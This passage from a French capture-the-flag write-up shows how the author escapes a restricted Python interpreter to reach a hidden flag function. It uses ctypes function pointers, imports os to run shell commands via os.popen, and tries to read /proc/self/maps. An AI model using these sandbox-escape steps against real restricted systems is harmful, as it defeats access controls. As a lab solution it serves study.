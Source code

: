 Après nombre de tentatives infructeuse on se rend compte que ce n'est surement pas ce qu'il faut faire.

-------

#### Énumération

Le but étant d'appeler `print_flag` on se rend compte que sans doute la fonction est load dans notre programme et c'est à nous de trouver un pointeur dessus.
Mais comment faire ça en python ? Avec un peu de recherche on trouve la lib `ctypes` qui nous permet entre autre de créer des pointeurs sur fonction.

On cherche donc à avoir un code comme cela:
```python
>>> import ctypes
>>>
>>> f = ctypes.CFUNCTYPE(ctypes.c_void_p)
>>> d = f(addr_print_flag)
>>> d()
FCSC{......}
```

Après quelques test on arrive à importer `os`, étant bien sur surpris nous remarquons que `os` est importable une fois `ctypes` et `sys` importés.
Grâce à `os` nous pouvons utiliser `popen` pour lancer un certain nombre de commande
```python
>>> import ctypes
>>> import sys
>>> import os

>>> print(os.popen('ls').read())
lib_flag.so
spython

>>> print(os.popen('ldd spython').read())
	linux-vdso.so.1 (0x00007ffd7510e000)
	libpython3.8.so.1.0 => /usr/lib/x86_64-linux-gnu/libpython3.8.so.1.0 (0x00007fe6f30b3000)
	lib_flag.so => not found
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe6f2ef0000)
	libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007fe6f2ec3000)
	libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fe6f2ca9000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fe6f2c88000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fe6f2c81000)
	libutil.so.1 => /lib/x86_64-linux-gnu/libutil.so.1 (0x00007fe6f2c7c000)
	libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007fe6f2b37000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fe6f360a000)

>>>
```

On remarque cette lib_flag.so et le faite qu'elle soit link avec notre programme, on essaye donc de lire `/proc/self/maps` afin de trouver son addresse de base.

```python
>>> open('/proc/self/maps')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
Exception: Action interdite
```
